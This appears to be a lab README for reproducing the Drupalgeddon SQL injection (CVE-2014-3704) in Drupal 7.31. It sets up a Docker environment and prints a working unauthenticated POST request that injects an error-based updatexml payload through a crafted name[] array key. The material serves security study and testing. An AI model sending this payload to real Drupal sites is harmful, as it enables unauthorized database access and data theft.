 # Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker-compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:

![](1.png)

After the installation is complete, browse the home page.

![](2.png)

## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.

![](3.png)

